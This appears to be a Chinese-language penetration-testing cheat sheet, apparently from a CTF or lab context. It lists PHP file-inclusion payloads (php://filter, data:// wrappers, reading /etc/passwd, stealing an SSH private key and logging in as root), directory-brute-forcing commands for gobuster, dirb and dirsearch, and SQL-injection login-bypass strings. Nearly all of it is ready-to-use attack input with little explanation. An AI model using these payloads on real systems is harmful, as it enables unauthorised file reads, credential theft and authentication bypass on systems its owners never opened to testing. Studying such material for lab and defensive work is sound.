 payload利用  

```
php://filter/read=convert.base64-encode/resource=index.php
php://filter/resource=index.php
php://filter/string.strip_tags|convert.base64-decode/resource=shell.php

data://text/plain,<?php%20phpinfo();?>
data://text/plain;base64,PD9waHAgcGhwaW5mbygpOz8%2b

file:///etc/passwd

http://127.0.0.1/cmd.php?cmd=php://input
POST数据：<?php phpinfo()?>

curl http://10.10.10.200/test.php?file=/home/qiu/.ssh/id_rsa

# 在文件包含中几个重要的文件
/home/qiu/.ssh/id_rsa  # 私钥
chmod 600 ~/.ssh/id_rsa  # 需要赋予权限，否则可能利用不成功，必须600
ssh -i id_rsa root@10.10.10.200# 使用密匙文件登录

```

### 2、目录扫描类  

```
# gobuster添加UA，指定扫描的文件类型
gobuster dir -u http://10.10.10.192/NickIzL33t/ -w /usr/share/wordlists/rockyou.txt -x txt,zip,php,html -H 'User-Agent:Mozilla/5.0 (iPhone; CPU iPhone OS............8.0 main%2F1.0 baiduboxapp/13.40.0.10 (Baidu; P2 15.5) NABar/1.0 themeUA=Theme/default' -s 200 -b '' -t 200

# gobuster扫描指定的文件类型
gobuster dir -u http://10.10.10.201/seeddms51x -w /data/SecLists_Dict/Discovery/Web-Content/directory-list-1.0.txt -x html,txt,php,js

# 使用dirb指定扫描的文件类型
dirb http://192.168.5.139/w/h/i/s/p/e/r/the_abyss/ -X .txt .img .html
# 其他自行查找

# dirsearch
python3 dirsearch.py -e php,txt,zip -u https://target     # 简单的查看网址目录和文件
python3 dirsearch.py -e php,txt,zip -u https://target -w db/dicc.txt        # 使用文件拓展名为php,txt,zip的字典扫描目标url
python dirsearch.py -u http://xxxx -r  # 递归扫描，不过容易被检测
python dirsearch.py -u http://xxxx -r -t 30# 线程控制请求速率
python dirsearch.py -u http://xxxx -r -t 30 --proxy 127.0.0.1:8080# 使用代理

```

### 3、常见登录框万能密码  

```
' or 1=1 --+
' or 1=1 -- +
' or 1=1#
&#34; or 1=1 --+
&#34; or 1=1 -- +
&#34; || 1=1 -- +
&#34; || 1=1 --+
&#34; || 1=1 #
```
